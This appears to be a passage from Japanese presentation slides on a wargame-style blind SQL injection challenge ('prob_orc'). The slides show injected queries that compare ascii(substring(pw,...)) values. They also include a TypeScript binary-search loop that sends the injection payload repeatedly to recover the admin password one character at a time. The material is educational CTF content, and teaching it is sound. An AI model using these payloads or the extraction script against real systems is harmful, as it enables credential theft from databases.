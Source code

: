 </div>

---

# PW の特定

## substring(), ascii()

```sql
select id from prob_orc where id='admin' and pw='' or 122 > ascii(substring(pw, 1, 1)) and id='admin'
```

上記のクエリは id が admin で pw の 1 文字目のアスキーコードが 122(z)未満なら行を返す

<div v-click>

```sql
select id from prob_orc where id='admin' and pw='' or 48 > ascii(substring(pw, 1, 1)) and id='admin'
```

上記のクエリは id が admin で pw の 1 文字目のアスキーコードが 48(0)未満じゃなければ行を返さない

</div>

<div v-click>
数値を変えていくことでPWが得られる！！
</div>

---

# PW の特定

```ts
let i = 0;
let result = "";
while (i != length) {
    left = 0;
    right = 256;
    while (left + 1 != right) {
        const val = Math.round((right - left) / 2) + left;
        if (
            judge(
                await sendRequest(
                    `pw=' or ${val} > ascii(substr(pw,${
                        i + 1
                    },1)) and id='admin`
                )
            )
        ) {
            right = val;
        } else {
            left = val;
        }
    }
    result += String.fromCharCode(left);
    ++i;
}
```

---
